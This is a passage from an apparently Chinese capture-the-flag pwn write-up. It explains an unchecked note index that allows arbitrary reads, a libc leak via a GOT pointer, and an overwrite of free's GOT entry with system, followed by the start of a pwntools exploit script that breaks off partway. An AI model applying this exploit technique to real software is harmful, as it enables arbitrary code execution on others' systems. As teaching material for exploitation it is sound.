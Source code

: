 ```C
                goto LABEL_13;
            if ( choice == 276 )                      // create
            {
                index__ = writeNum();
                len = writeNum();
                LODWORD(note[2 * index__]) = len;
                note[2 * index__ + 1] = malloc(len);
                write2ptr(note[2 * index__ + 1], len);
            }
            else
            {
                if ( choice != 1300 )                   // read
                    goto LABEL_13;
                index_ = writeNum();
                puts((const char *)note[2 * index_ + 1]);
            }
        }
    }
}
```

`index`没有限制，因此可以任意读取`addr % 16 = 8`的地址所指向的数据。

可以通过在LOAD段中指向全局偏移表（GOT）的指针，来泄露libc库的地址。

然后利用可以自定义note的长度，来将`free_got`的低四字节改为`system`的低四字节（这里`system`的低四字节转化为有符号整数，不能为负数，是负数就多试几次）。

```Python
from pwn import *
from pwn import p64, u64, p32, u32
import os

context.terminal = ['tmux', 'splitw', '-h', '-p', '80']
context.log_level = 'debug'
context.arch = 'amd64'

fileName = './pwn'
libcName = './libc.so.6'
sh = process(fileName)
# sh = remote('47.116.173.108', 32150)
elf = ELF(fileName)
libc = ELF(libcName)
chunck_addr = 0x4040A0

def show(index, getResult=True):
    sh.sendline(b'1300')
    time.sleep(0.3)
    sh.sendline(str(index).encode())
    if getResult:
        result = sh.recvline()
        print(result)
        return result
    return b''

def add(index, len, content):
    sh.sendline(b'276')
    time.sleep(0.3)
    sh.sendline(str(index).encode())
    time.sleep(0.3)
    sh.sendline(str(len).encode())
    time.sleep(0.3)
    sh.sendline(content)
    
def delete(index):
    sh.sendline(b'6425')
```